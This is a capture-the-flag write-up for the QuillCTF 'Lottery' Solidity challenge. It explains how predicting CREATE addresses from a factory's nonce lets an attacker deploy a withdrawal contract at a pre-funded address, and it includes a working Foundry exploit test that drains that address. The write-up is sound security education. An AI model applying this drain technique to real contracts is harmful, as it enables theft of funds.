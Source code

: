 ## Capture the Flag Challenge `Lottery`

https://academy.quillaudits.com/challenges/quillctf-challenges/lottery

## Prerequisites

This project uses `foundry` (https://book.getfoundry.sh/) which needs to be set up.

## Running the project

Run the following commands to install dependencies:
```
forge install foundry-rs/forge-std
```

Run the following command to compile the contracts:
```
forge build
```

Run the following command to run the tests:
```
forge test
```

## Solution

The opcode `create` deploys a contract to the following address `keccak256(rlp([sender_address,sender_nonce]))[12:]`. The new address of the contract depends only on the `sender_address` (factory address in our example) and the `sender_nonce`. Investigating the first few addresses that the factory contract creates confirms that the address `0x0A1EB1b2d96a175608edEF666c171d351109d8AA` is created by the `factory` when its nonce is 17. I create a `Revert` contract to use the `type(Revert).creationCode` value as input parameter for the first 16 calls to the `factory.dep` function so that the creation of a new contract reverts in the constructor. This will refund the 10 ether to the attacker. I create a `Withdraw` contract to use the `type(Withdraw).creationCode` value as input parameter for the 17th call to the `factory.dep` function so that a smart contract is created at address `0x0A1EB1b2d96a175608edEF666c171d351109d8AA`. The `Withdraw` smart contract has a function to withdraw the ether on its balance.

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.19;

import {Test} from "forge-std/Test.sol";
import "forge-std/console.sol";

contract Revert {
    constructor() {
        revert();
    }
}

contract Withdraw {
    function withdraw() external {
        payable(msg.sender).transfer(address(this).balance);
    }
}

contract Factory {
    function dep(bytes memory _code) public payable returns (address x) {
        require(msg.value >= 10 ether);
       
        assembly {
            x := create(0, add(0x20, _code), mload(_code))
        }
        if (x == address(0)) payable(msg.sender).transfer(msg.value);
    }
}

contract Lottery is Test {
    Factory private factory;
    address attacker;

    function setUp() public {
        factory = new Factory();
        attacker = makeAddr("attacker");
    }

    receive() external payable {}

    function testLottery() public {
        vm.deal(attacker, 11 ether);
        vm.deal(0x0A1EB1b2d96a175608edEF666c171d351109d8AA, 200 ether);
        vm.startPrank(attacker);

        // Solution

        bytes memory revertByteCode = type(Revert).creationCode;

        for (int i = 0; i < 16; i++) {
            
            factory.dep{value: 10 ether}(revertByteCode);
        }

        bytes memory withdrawByteCode = type(Withdraw).creationCode;

        factory.dep{value: 10 ether}(withdrawByteCode);

        Withdraw(0x0A1EB1b2d96a175608edEF666c171d351109d8AA).withdraw();

        vm.stopPrank();
        assertGt(attacker.balance, 200 ether);
    }
}
```

